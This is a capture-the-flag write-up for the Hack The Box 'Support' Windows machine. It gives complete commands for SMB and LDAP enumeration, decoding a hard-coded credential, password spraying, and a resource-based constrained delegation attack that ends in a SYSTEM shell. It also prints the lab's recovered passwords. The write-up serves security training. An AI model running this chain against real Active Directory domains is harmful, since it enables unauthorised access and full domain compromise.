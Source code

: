 # HTB - Support

**IP Address:** `10.10.11.174`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** SMB, LDAP, WinRM, Kerberos, BloodHound, RBCD

---

## 1. Network Scanning

### 1.1 Ping Test

Verified machine is alive.

### 1.2 Nmap Full Port Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.174 -oG allPorts
```
![[Pasted image 20250308152618.png]]

Found several ports including SMB (445), LDAP (389), WinRM (5985), and Kerberos (88).

### 1.3 Targeted Nmap Scan

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49679,49701,49739 -sC -sV 10.10.11.174 -oN targeted
```

Found Active Directory-related services running. Domain name: `support.htb`.

---

## 2. SMB Enumeration

### 2.1 Check Shares

```bash
smbclient -L 10.10.11.174 -N
```

Found share: `support-tools`

```bash
smbmap -H 10.10.11.174 -u none
```

Only `IPC$` and `support-tools` are accessible anonymously.

### 2.2 Explore support-tools Share

```bash
smbclient //10.10.11.174/support-tools -N
```

Downloaded and extracted:

```bash
get UserInfo.exe.zip
unzip UserInfo.exe.zip
```

Examined contents:

```bash
cat UserInfo.exe.config
strings -e l UserInfo.exe
```

Found: `LDAP://support.htb`, user `armando`, and an encoded string — likely a password.

---

## 3. User Enumeration with Kerbrute

### 3.1 Validate User Existence

Created `users.txt` with "ldap" and ran:

```bash
/opt/kerbrute/kerbrute userenum -d support.htb --dc 10.10.11.174 users
```

✅ `ldap` user is valid!

### 3.2 Bruteforce Other Users  
(⚠️ No further valid usernames were found)

```bash
/opt/kerbrute/kerbrute userenum -d support.htb --dc 10.10.11.174 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

❌ (Dead end – Continue with ldap user)

---

## 4. Reverse Engineering Credentials

Using ILSpy on `UserInfo.exe` revealed:

- Encoded password for user `ldap`
- Base64 + XOR with `key2 = 223` and key `armando`

Decoded using:

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("...")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
    res += chr(e ^ k ^ key2)

print(res)
```

Recovered password for `ldap`: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

## 5. Validate Credentials

```bash
crackmapexec smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

✅ SMB login successful

```bash
crackmapexec winrm 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

❌ No WinRM access for `ldap` (🔒 Dead end)

---

## 6. RPC and LDAP Enumeration

Accessed RPC as `ldap`:

```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174
```

- Enumerated users
- Saved usernames using regex:

```bash
rpcclient -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users
```

Attempted spraying the password across all users:

```bash
crackmapexec smb 10.10.11.174 -u users -p credentials.txt --continue-on-success
```

❌ Only `ldap` worked (🔒 Dead end)

---

## 7. Deep LDAP Search

```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

Searched for user entries using:

```bash
grep -i "samaccountname: support" -B 40
```

🟢 Found plaintext password under `info` attribute:  
**`Ironside47pleasure40Watchful`**

---

## 8. Access via WinRM as support

```bash
evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
```

✅ Access granted  
🏁 **User flag obtained**

---

## 9. BloodHound for Privilege Escalation

Started Neo4j:

```bash
sudo neo4j console
```

Opened BloodHound web interface → http://localhost:7474  
Logged in with default credentials.

Uploaded data collected with:

```bash
.\SharpHound.exe -c All
```

✅ Path to domain admin via RBCD discovered

---

## 10. Exploiting RBCD

### 10.1 Powermad – Create Fake Machine

```powershell
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force)
```

### 10.2 PowerView – Assign Delegation Rights

```powershell
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc.support.htb | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

✅ Confirmed via:

```powershell
Get-DomainComputer dc.support.htb -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

---

## 11. Get Administrator Access

### 11.1 Sync Time

```bash
timedatectl set-ntp off
sudo rdate -n 10.10.11.174
```

### 11.2 Request TGS

```bash
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456
```

### 11.3 Pass the Ticket

```bash
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass dc.support.htb
```

✅ SYSTEM shell obtained  
🏁 **Root flag captured**

---

# ✅ MACHINE COMPLETE
